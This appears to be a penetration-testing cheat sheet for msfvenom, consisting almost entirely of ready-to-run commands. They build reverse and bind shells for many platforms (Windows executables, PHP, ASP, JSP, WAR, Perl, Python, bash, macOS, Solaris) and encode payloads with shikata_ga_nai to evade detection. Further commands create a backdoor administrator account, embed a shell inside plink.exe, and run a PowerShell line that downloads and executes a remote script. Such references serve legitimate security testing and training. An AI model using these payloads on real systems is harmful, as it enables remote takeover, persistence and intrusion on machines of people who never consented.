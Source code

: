 # MSFVenom

## Usage
msfvenom -p <PAYLOAD> -e <ENCODER> -f <FORMAT> -i <ENCODE COUNT> LHOST=<IP>

## Commands
### Payloads
msfvenom -l payloads 

### Encoders
msfvenom -l encoders 

### Options
#### Banned characters
-b "\x00\x0a\x0d" 

#### Format
-f c 

#### Encoders
-e x86/shikata_ga_nai -i 5 

#### Inline options
EXITFUNC=thread
PrependSetuid=True #Use this to create a shellcode that will execute something with SUID

## Shells

### Reverse 
msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f exe > reverse.exe

### Bind
msfvenom -p windows/meterpreter/bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f exe > bind.exe

## Payloads

### Add user
msfvenom -p windows/adduser USER=attacker PASS=attacker@123 -f exe > adduser.exe

### Run commands
msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell \"IEX(New-Object Net.webClient).downloadString('http://IP/nishang.ps1')\"" -f exe > pay.exe
msfvenom -a x86 --platform Windows -p windows/exec CMD="net localgroup administrators shaun /add" -f exe > pay.exe

### Embedded 
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -x /usr/share/windows-binaries/plink.exe -f exe -o plinkmeter.exe

### Platforms
msfvenom -p osx/x86/shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f macho > reverse.macho
msfvenom --platform=solaris --payload=solaris/x86/shell_reverse_tcp LHOST=(ATTACKER IP) LPORT=(ATTACKER PORT) -f elf -e x86/shikata_ga_nai -b '\x00' > solshell.elf
msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php
msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f asp >reverse.asp
msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f aspx >reverse.aspx
msfvenom -p java/jsp_shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f raw> reverse.jsp
msfvenom -p java/jsp_shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f war > reverse.war
msfvenom -p nodejs/shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port)
msfvenom -p cmd/unix/reverse_perl LHOST=(IP Address) LPORT=(Your Port) -f raw > reverse.pl
msfvenom -p cmd/unix/reverse_python LHOST=(IP Address) LPORT=(Your Port) -f raw > reverse.py
msfvenom -p cmd/unix/reverse_bash LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.sh
